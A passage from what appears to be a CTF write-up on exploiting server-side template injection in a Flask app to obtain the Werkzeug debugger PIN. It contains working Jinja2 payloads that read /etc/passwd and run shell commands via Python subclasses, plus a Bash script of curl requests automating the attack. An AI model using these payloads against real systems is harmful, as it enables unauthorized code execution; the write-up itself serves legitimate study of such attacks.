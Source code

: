 ![image-20201209101727572](https://0xdfimages.gitlab.io/img/image-20201209101727572.png)

I tried to use [this technique](https://www.daehee.com/werkzeug-console-pin-
exploit/) to generate the pin, but wasn’t able to make it match.

Engy shared their technique with me, and it’s pretty neat. To show how it
works, first a demo on a local vm. First, create a dummy Flask app that just
prints the debug pin and cookie:

    
    
    $ echo from flask import Flask\;import werkzeug.debug\;app = Flask\(__name__\)\;print\(werkzeug.debug.get_pin_and_cookie_name\(app\)\) >/tmp/test
    $ cat /tmp/test 
    from flask import Flask;import werkzeug.debug;app = Flask(__name__);print(werkzeug.debug.get_pin_and_cookie_name(app))
    

Running that now prints the pin:

    
    
    $ python /tmp/test
    ('285-643-759', '__wzda5c99d5a48f1bb8aab83')
    

Now to do that on the server, I’ll need some way to get execution. Earlier
when I used `{{
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}` to read
files, it was getting a list of all the loaded classes in the application, and
`open` was the 40th object in that array. Sending just `{{
''.__class__.__mro__[2].__subclasses__() }}` will return the full list of
classes available, and there’s another interesting one:

![image-20201209151357289](https://0xdfimages.gitlab.io/img/image-20201209151357289.png)

It’s at index 258, and will provide execution.

I’ll use one command to write the dummy flask app, another run it, pipping the
output to a file, and a file read to get the results.

This short Bash script has four `curl` commands to write, execute, read, and
delete:

    
    
    #!/bin/bash
    
    URL=https://$1
    curl -s -X POST $URL -d "name={{[].__class__.__base__.__subclasses__()[258]([\"echo from flask import Flask\;import        werkzeug.debug\;app = Flask\(__name__\)\;print\(werkzeug.debug.get_pin_and_cookie_name\(app\)\) >/tmp/test\"], shell=True)}}" 2>&1 >/dev/null
    curl -s -X POST $URL -d "name={{[].__class__.__base__.__subclasses__()[258]([\"python /tmp/test > /tmp/test1 2>/tmp/       test2\"], shell=True)}}" 2>&1 >/dev/null
    sleep 0.2
    curl -s -X POST $URL -d "name={{[].__class__.__base__.__subclasses__()[40](\"/tmp/test1\").read()}}" | grep Hello | sed -e 's/( Hello, mighty (&#39;\(.*\)&#39;, )/\1/'
    curl -s -X POST $URL -d "name={{[].__class__.__base__.__subclasses__()[258]([\"rm /tmp/test*\"], shell=True)}}" 2>&1 >/dev/null
    